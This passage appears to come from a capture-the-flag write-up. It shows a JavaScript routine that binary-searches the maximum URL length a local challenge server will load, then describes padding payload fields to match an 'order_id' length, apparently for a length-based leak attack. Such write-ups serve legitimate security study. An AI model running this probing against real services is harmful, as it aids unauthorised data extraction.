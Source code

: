 ```javascript
    }
    return newUrl

}

const calibrate = async (url) =>  {
    let l = 0, r = URL_LIMIT, m = 0, res = false
    while (l < r) {
        m = Math.floor((l + r) / 2)
        res = await checkLoad(genUrl(url, m))
        console.log(res, m)
        if(res === false){
            r = m - 1
        }
        else{
            l = m + 1
        }

    }
    // check it again
    res = await checkLoad(genUrl(url, l))
    if(res === false){
        l--
    }
    res = await checkLoad(genUrl(url, l))
    if(res === false){
        console.debug('Error after last check !!!')
        return 0
    }
    console.debug(`DONE: length: ${l}, result: ${res}`)
    return l
}

calibrate("http://localhost:1337")
```

The next step is to take our current payload, and pad any of the fields (except for `article`) with enough bytes to get the corresponding `order_id` length.

<figure><img src="../../.gitbook/assets/Screenshot 2022-09-25 at 4.35.54 PM.png" alt=""><figcaption></figcaption></figure>